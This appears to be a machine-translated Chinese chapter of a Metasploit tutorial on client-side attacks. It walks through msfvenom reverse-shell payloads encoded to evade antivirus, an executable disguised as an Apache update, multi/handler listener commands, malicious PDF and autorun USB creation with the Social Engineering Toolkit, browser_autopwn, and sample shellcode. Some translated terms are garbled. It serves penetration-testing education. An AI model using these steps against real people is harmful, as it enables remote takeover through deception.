




# 使用 Metasploit 的客户端攻击

在前一章中，我们学习了使用各种工具（如 NMAP 和 Nessus）直接利用目标系统中的漏洞。但是，如果攻击者的系统和目标系统位于同一网络中，我们学到的技术是有用的。在本章中，我们将看到用于开发位于不同网络中的系统的技术概述。本章涉及的主题如下：

*   了解与客户端攻击相关的关键术语
*   使用 msfvenom 生成自定义有效负载
*   使用社会工程工具包
*   使用`browser_autopwn`进行基于浏览器的高级攻击；辅助模块

# 客户端攻击的需求

在上一章中，我们在目标系统中使用了 MS08_067net api 漏洞，并获得了对系统的完全管理员级访问权限。我们将 RHOST 变量的值配置为目标系统的 IP 地址。现在，只有攻击者的系统和目标系统位于同一网络上，攻击才成功。（攻击者系统的 IP 地址为`192.168.44.134`，目标系统的 IP 地址为`192.168.44.129`。

此场景非常简单，如下图所示：


现在，考虑下面的图表中显示的场景。攻击者系统的 IP 地址为*公共*地址，他试图利用不在同一网络中的系统上的漏洞进行攻击。注意，在这种情况下，目标系统有一个专用 IP 地址（`10.11.1.56`，并在互联网路由器（`88.43.21.9x`）后面进行 NAT。因此，攻击者的系统与目标系统之间没有直接连接。通过将 RHOST 设置为`89.43.21.9`，攻击者只能访问 internet 路由器，而不能访问所需的目标系统。在这种情况下，我们需要采用另一种方法来攻击我们的目标系统，称为客户端攻击：


# 什么是客户端攻击？

如前一节所述，如果目标系统与攻击者不在同一网络中，则攻击者无法直接到达目标系统。在这种情况下，攻击者必须通过其他方式将有效负载发送到目标系统。将有效载荷传送到目标系统的一些技术包括：

1.  攻击者托管具有所需恶意负载的网站，并将其发送给受害者。
2.  攻击者通过电子邮件将嵌入在任何看似无辜的文件（如 DOC、PDF 或 XLS）中的有效负载发送给受害者。
3.  攻击者使用受感染的媒体驱动器（如 USB 闪存驱动器、CD 或 DVD）发送有效负载

现在，一旦有效负载被发送给受害者，受害者需要执行所需的操作以触发有效负载。一旦有效负载被触发，它将连接回攻击者，并为其提供所需的访问权限。大多数客户端攻击都要求受害者执行某种操作或其他操作；

以下流程图总结了客户端攻击的工作原理：



# 什么是外壳代码？

让我们把 shellcode 这个词分解成 shell 和 code。简单地说，外壳代码是一种旨在为目标系统提供外壳访问权限的代码。实际上，外壳代码可以做的不仅仅是提供外壳访问权限。这完全取决于外壳代码中定义的操作。为了执行客户端攻击，我们需要选择作为有效负载一部分的精确外壳代码。假设目标系统中存在某个漏洞，攻击者可以编写外壳代码来利用该漏洞进行攻击。外壳代码通常是十六进制编码的数据，可能如下所示：

```
"
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2"
 "\x51\x68\x6c\x6c\x20\x20\x68\x33"
 "\x32\x2e\x64\x68\x75\x73\x65\x72"
 "\x89\xe1\xbb\x7b\x1d\x80\x7c\x51"
 "\xff\xd3\xb9\x5e\x67\x30\xef\x81"
 "\xc1\x11\x11\x11\x11\x51\x68\x61"
 "\x67\x65\x42\x68\x4d\x65\x73\x73"
 "\x89\xe1\x51\x50\xbb\x40\xae\x80"
 "\x7c\xff\xd3\x89\xe1\x31\xd2\x52"
 "\x51\x51\x52\xff\xd0\x31\xc0\x50"
 "\xb8\x12\xcb\x81\x7c\xff\xd0"; 
"
```

# 什么是反向外壳？

反向 shell 是一种 shell 类型，它在执行时会连接回攻击者的系统，从而提供 shell 访问权限。

# 什么是绑定壳？

绑定 shell 是一种 shell 类型，它在执行时会主动侦听特定端口上的连接。然后，攻击者可以连接到此端口以获得 shell 访问权限。

# 什么是编码器？

`msfvenom`实用程序将为我们生成有效载荷。然而，我们的有效载荷被目标系统上的防病毒软件检测到的可能性相当高。几乎所有行业领先的防病毒和安全软件程序都有检测 Metasploit 有效负载的签名。如果我们的有效载荷被检测到，它将变得毫无用处，我们的利用将失败。这正是编码器拯救的地方。编码器的工作是混淆生成的有效负载，使其不会被防病毒或类似的安全软件程序检测到。

# msfvenom 实用程序

早些时候，Metasploit 框架提供了两种不同的实用程序，即：；`msfpayload`和`msfencode.`使用`msfpayload`生成指定格式的有效载荷，`msfencode`使用各种算法对有效载荷进行编码和模糊处理。然而，更新和最新版本的 Metasploit 框架将这两个实用程序合并到一个名为`msfvenom`的实用程序中。

`msfvenom`实用程序可以生成有效负载，也可以在单个命令中对其进行编码。下面我们将看到一些命令：

`msfvenom`是一个独立的实用程序，不需要`msfconsole`同时运行。

*   **列表有效载荷**：`msfvenom`实用程序支持所有标准 Metasploit 有效载荷。我们可以使用`msfvenom --list payloads`命令列出所有可用的有效载荷，如以下屏幕截图所示：


*   **列表编码器**：正如我们前面所讨论的，`msfvenom`是一个单一的实用程序，它可以生成和编码有效负载。它支持所有标准 Metasploit 编码器。我们可以使用`msfvenom --list encoders`列出所有可用的编码器；命令，如以下屏幕截图所示：


*   **列表格式**：在生成有效负载时，我们需要向`msfvenom`实用程序说明需要生成有效负载的文件格式。我们可以使用`msfvenom --help`格式；查看所有支持的有效负载输出格式的命令：



*   **列出平台**：在生成有效负载的同时，我们还需要指示`msfvenom`实用程序我们的有效负载将在哪个平台上运行。我们可以使用`msfvenom --help-platforms`；命令列出所有受支持的平台：


# 使用 msfvenom 生成有效负载

现在我们已经熟悉了`msfvenom`实用程序支持的所有有效负载、编码器、格式和平台，让我们尝试生成一个示例有效负载，如以下屏幕截图所示：


下表详细说明了上述`msfvenom`命令中使用的每个命令开关：

| **开关** | **说明** |
| `-a x86` | 这里，生成的有效负载将在 x86 体系结构上运行 |
| `--platform windows` | 这里，生成的有效负载是针对 Windows 平台的 |
| `-p windows/meterpreter/reverse_tcp` | 这里，有效负载是带有反向 TCP 的 MeterMeter |
| `LHOST= 192.168.44.134` | 此处，攻击者系统的 IP 地址为`192.168.44.134` |
| `LPORT= 8080` | 此处，攻击者系统上监听的端口号为`8080` |
| `-e x86/shikata_ga_nai` | 这里，要使用的有效载荷编码器是`shikata_ga_nai` |
| `-f exe` | 这里，有效载荷的输出格式为`exe` |
| `-o /root/Desktop/apache-update.exe` | 这是保存生成的有效负载的路径 |

一旦我们生成了一个负载，我们需要设置一个侦听器，一旦负载在我们的目标系统上执行，它将接受反向连接。以下命令将在端口`8080`上的 IP 地址`192.168.44.134`上启动 MeterMeter 侦听器：

```
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.44.134; set LPORT 8080; run; exit -y"
```


现在，我们已经将负载伪装成 Apache 更新发送给受害者。受害者需要执行它才能完成攻击：



一旦受害者执行了死刑；`apache-update.exe`；文件中，我们将在前面设置的侦听器上返回一个活动的 MeterMeter 会话（如以下屏幕截图所示）：


另一个有趣的有效负载格式是 VBA。如以下屏幕截图所示，以 VBA 格式生成的有效负载可以嵌入任何 Word/Excel 文档中的宏中：


# 元 sploit 社会工程

社会工程是操纵人类行为以绕过目标系统安全控制的一门艺术。让我们以一个遵循非常严格的安全实践的组织为例。所有系统都经过加固和修补。部署了最新的安全软件。从技术上讲，攻击者很难发现并利用任何漏洞进行攻击。但是，攻击者设法与该组织的网络管理员成为朋友，然后欺骗他，使其泄露管理员凭据。这是一个典型的例子，其中人类始终是安全链中最薄弱的环节。

默认情况下，Kali Linux 有一个强大的社会工程工具，它与 Metasploit 无缝集成，以发起有针对性的攻击。在 Kali Linux 中，社会工程工具包位于：；开发工具|；社会工程工具包。

# 生成恶意 PDF

打开社会工程工具包并选择第一个选项 Spear Phishing 攻击向量，如以下屏幕截图所示；然后选择第二个选项创建文件格式有效负载：


现在，选择选项 14 以使用；`Adobe util.printf() Buffer Overflow`利用：


选择选项 1 以使用 Windows Reverse TCP Shell 作为攻击的有效负载。然后，使用 LHOST 变量（本例中为`192.168.44.134`）和要侦听的端口（本例中为`443`）设置攻击者机器的 IP 地址：


已在目录`/root/.set/`中生成 PDF 文件。现在我们需要使用任何可用的通讯媒介将其发送给受害者。同时，我们还需要启动一个侦听器，它将接受来自目标的反向 MeterMeter 连接。我们可以使用以下命令启动侦听器：

```
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.44.134; set LPORT 443; run; exit -y"
```

在另一端，我们的受害者收到了 PDF 文件，并试图用 Adobe Reader 打开它。Adobe Reader 崩溃了；但是，没有任何迹象表明妥协的受害者：


回到监听器端（在攻击者的系统上），我们得到了一个新的 MeterMeter 外壳！我们可以在下面的屏幕截图中看到这一点：


# 创建有感染力的媒体驱动器

打开 Social Engineering Toolkit，从主菜单中选择选项 3 Infective Media Generator，如下图所示。然后，选择选项 2 以创建标准 Metasploit 可执行文件：


现在，选择选项 1 以使用 Windows Shell 反向 TCP 作为攻击的有效负载。然后，在 LHOST 变量和要侦听的端口中设置 IP 地址：


社会工程工具包将在`/root/.set/`生成一个名为*自动运行*的文件夹。此文件夹可以复制到 USB 闪存驱动器或 CD/DVD ROM，以将其分发给受害者。同时，我们还需要设置一个侦听器（如前一节所示），然后等待受害者将受感染的媒体插入他的系统。

# 浏览器自动关闭

另一个有趣的用于执行客户端攻击的辅助模块是`browser_autopwn`。该辅助模块按以下顺序工作：

1.  攻击者执行`browser_autopwn`辅助模块。
2.  启动（在攻击者的系统上）承载有效负载的 web 服务器。有效负载可以通过特定的 URL 访问。
3.  攻击者将专门生成的 URL 发送给受害者。
4.  受害者试图打开 URL，当有效负载下载到他的系统上时。
5.  如果受害者的浏览器易受攻击，则攻击成功，攻击者获得 MeterMeter 外壳。

在`msfconsole`中，使用`auxiliary/server/browser_autopwn`选择`browser_autopwn`模块；命令，如下面的屏幕截图所示。然后，配置 LHOST 变量的值并运行辅助模块：


运行辅助模块将创建许多不同的漏洞/有效负载组合实例，因为受害者可能使用任何类型的浏览器：


在目标系统上，我们的受害者打开一个 Internet Explorer 并试图点击恶意 URL`http://192.168.44.134:8080`（我们使用`browser_autopwn`辅助模块设置）：



在我们的 Metasploit 系统上，受害者一打开特制的 URL，我们就得到了一个米表外壳：


# 总结

在本章中，我们学习了如何使用各种工具和技术来发起高级客户端攻击并绕过网络外围限制。

在下一章中，我们将深入探讨 Metasploit 用于测试 web 应用程序安全性的功能。

# 练习

您可以尝试以下练习：

*   熟悉`msfvenom`的各种参数和开关
*   探索社会工程工具包提供的各种其他社会工程技术